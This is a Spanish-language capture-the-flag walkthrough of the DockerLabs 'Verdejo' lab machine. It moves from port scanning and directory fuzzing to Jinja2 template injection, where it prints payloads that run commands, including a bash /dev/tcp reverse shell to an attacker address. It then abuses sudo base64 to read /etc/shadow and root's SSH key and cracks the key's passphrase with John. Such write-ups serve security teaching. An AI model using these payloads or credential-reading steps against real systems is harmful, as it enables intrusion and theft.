# 🧪 Análisis de la máquina vulnerable: **Verdejo**

**Dificultad:** Fácil

**Plataforma:** DockerLabs

**Descripción:**



---

## 📦 Despliegue de la máquina

Se descarga la máquina vulnerable desde la página oficial de DockerLabs y se descomprime con:

```bash
unzip verdejo.zip
```

Luego, se despliega el entorno con el script:

```bash
sudo bash auto_deploy.sh verdejo.tar
```

Esto inicia la máquina en un contenedor de Docker.



---

## 📡 Verificación de la conectividad

Se verifica la conexión con la máquina mediante un simple ping a la IP asignada (`172.17.0.3`):

```bash
ping -c1 172.17.0.3
```

Esto confirma que la máquina está accesible en la red local del contenedor.



---

## 🔍 Escaneo de puertos

Utilizamos `nmap` para realizar un escaneo completo de todos los puertos y ver cuáles están abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Resultado:

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
8089/tcp open  unknown syn-ack ttl 64
```



---

## 🛠️ Detección de servicios

Con los puertos abiertos identificados, se realiza un escaneo más detallado para obtener información sobre los servicios y versiones:

```bash
nmap -sC -sV -p22,80,8089 172.17.0.3 -oN target.txt
```

Se usó un script personalizado `extractPorts` para agilizar el proceso de extracción de puertos desde la salida anterior.



---

## 🌐 Análisis de los servicios HTTP

Al acceder a `http://172.17.0.3/` se muestra la página por defecto de Apache2, lo que indica que el servidor está funcionando.



También se accede al puerto `8089` vía `http://172.17.0.3:8089/` y se observa una página personalizada que parece desarrollada en algún framework Python (por la estructura del HTML).



---

## 🗂️ Fuzzing de directorios

Se realizó una enumeración de directorios y archivos con `gobuster` para ambos puertos:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
gobuster dir -u http://172.17.0.3:8089 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Durante el fuzzing en el puerto `8089`, la aplicación se volvió inestable, lo que sugiere una posible vulnerabilidad a ataques DoS o DDoS.




---

## 🧠 Server-Side Template Injection (SSTI)

Al inspeccionar el parámetro `user` en la URL `http://172.17.0.3:8089/?user=`, se descubrió que la aplicación es vulnerable a SSTI, probablemente mediante Jinja2 (común en aplicaciones Flask).

Se probó la ejecución de comandos con este payload:

```
http://172.17.0.3:8089/?user={{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
```

Este payload ejecuta el comando `cat /etc/passwd` desde el servidor y muestra su salida en la página web.



---

## ⚙️ Reverse Shell

Aprovechando la vulnerabilidad SSTI, se obtuvo una reverse shell. Primero, iniciamos un listener:

```bash
sudo nc -lvnp 443
```

Luego, se usó este payload SSTI modificado para obtener acceso remoto:

```
http://172.17.0.3:8089/?user={{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.1.10/443 0>&1"').read() }}
```

Esto inicia una shell interactiva con el servidor.




---

## 🔐 Escalada de privilegios

Se descubrió que el usuario tenía permiso para ejecutar el binario `base64` como root sin contraseña (`NOPASSWD`):

```bash
sudo -l
```

Usamos esto para leer archivos restringidos como `/etc/shadow` y la clave privada SSH de root:

```bash
sudo base64 /etc/shadow | base64 --decode
sudo base64 /root/.ssh/id_rsa | base64 --decode
```

Esto permitió obtener las contraseñas encriptadas y la clave privada del usuario root.




---

## 🔑 Acceso por SSH

Guardamos la clave privada en un archivo llamado `id_rsa` y le dimos los permisos adecuados:

```bash
nano id_rsa
chmod 600 id_rsa
```

Al intentar conectarse con:

```bash
ssh -i id_rsa root@172.17.0.3
```

Se solicita la passphrase de la clave. Para obtenerla, convertimos la clave al formato crackeable por John the Ripper:

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Se obtuvo la contraseña `honda1`, con la cual se logró el acceso como **root** por SSH.




---


